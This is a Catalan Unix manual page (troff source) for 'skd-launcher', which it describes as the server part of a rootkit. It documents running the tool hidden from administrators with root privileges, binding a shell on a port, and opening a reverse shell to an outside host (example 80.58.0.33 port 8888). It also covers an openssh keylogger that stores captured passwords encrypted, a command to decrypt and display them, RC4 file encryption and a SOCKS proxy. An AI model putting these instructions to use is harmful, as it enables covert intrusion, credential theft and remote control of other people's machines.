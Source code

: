 .TH SKD-LAUNCHER 1

.SH NOM

skd-launcher - part launcher del rootkit skd

.SH SINOPSIS

.B skd-launcher
.PP
.B skd-launcher
.I port
.PP
.B skd-launcher 
.I host port
.PP
.B skd-launcher -c
.I command option

.SH OPCIONS

El skd-launcher pot ser executat de diferents maneres depenent del nombre de paràmetres que se li passin per línia de comandes.
.PP
En tots aquests modes d'execució, en cas de què un paràmetre sigui passat incorrectament, el launcher surt sense emetre cap missatge.


.B Execució sense paràmetres
.PP
.TP
Si s'executa sense paràmetres, aquest ha de ser executat com a root. Al executar-se, aquest queda en funcionament com a servei de sistema.
.PP

.B Execució amb un paràmetre
.PP
Si s'executa passant-li per paràmetre un enter, aquest obre el port TCP i queda en execució com a servei a la màquina.
.PP
.IR port :
Port TCP on el launcher intentarà arrancar el seu servei.
.PP

.B Execució amb dos paràmetres
.PP
Si s'executa passant-li dos paràmetres, el launcher s'intenta connectar al host i port on host és un string passat com a primer paràmetre, i el port, un enter passat en el segon paràmetre.
.PP
.IR host :
Host destí on s'intentarà connectar per a trobar-hi un client i oferir-li una shell.
.PP
.IR port :
Port destí del host.
.PP

.B Execució amb tres paràmetres
.PP
En l'últim mode d'execució, el launcher s'executa utilitzant l'opció -c i dos paràmetres. El primer és la comanda a executar, i el segon un paràmetre utilitzat per la comanda.
.PP
.B -c
{
.I drc4 file
|
.I rc4 file
|
.I socks port
| keys service
}
.PP
.I drc4 file
: desxifra el fitxer file utilitzant les claus de xifratge rc4 configurades. 
.PP
.I rc4 file
: xifra el ftxer file utilitzant les claus de xifratge rc4 configurades. 
.PP
.I socks port
: engega un servei socks4a en el port tcp especificat.
.PP
.I keys service
: engega el keylogger en el servei especificat. En aquest moment només està implementat el servei ssh que fa referència a serveis openssh 2.x.
.PP
.SH DISPONIBILITAT

Totes les variants de UNIX que compleixin l'estàndard POSIX.

.SH DESCRIPCIÓ

skd-launcher és la part servidor del rootkit skd. Aquesta part, és la què implementa totes les funcionalitats principals. Per tal d'utilitzar-les ens cal disposar de la part client i del password amb què va estar configurat. Sempre ens interessarà que el skd-launcher sigui executat amb el màxim de privilegis possibles, i que aquest no sigui descobert per els administradors de la màquina.
.PP

.SH EXEMPLES
.B skd-launcher
.PP
Aquesta execució sense paràmetres, ens deixaria el servei corrent a la màquina del mode més ocult possible.

.B skd-launcher 9999
.PP
Executant-lo d'aquesta manera, tindríem un servei TCP escoltant al port 9999.

.B skd-launcher 80.58.0.33 8888
.PP
D'aquesta manera aconseguirem que el launcher es connecti al host 80.58.0.33 port 8888 per tal d'oferir-li una shell. D'aquesta manera no queda cap servei en execució.

.B skd-launcher -c drc4 .k_rc4_sshd
.PP
Llançant el launcher així, ens mostraria per pantalla tots els passwords obtinguts a la màquina i guardats de forma xifrada en el fitxer .k_rc4_sshd.

.B skd-launcher -c rc4 /etc/fstab > fstab.rc4
.PP
Amb aquesta execució, xifraríem el fitxer /etc/fstab i el guardaríem en el fitxer fstab.rc4.

.B skd-launcher -c socks 9999
.PP
Amb això iniciem el servei socks al port tcp 9999.

.B skd-launcher -c keys sshd
.PP
Llançant el launcher així, arranquem el keylogger del servei openssh.

.SH AUTOR

Albert Sellarès <whats[@t]wekk.net>

.SH VEURE TAMBÉ
.RS
skd-client(1), skd-config(7).
.RE
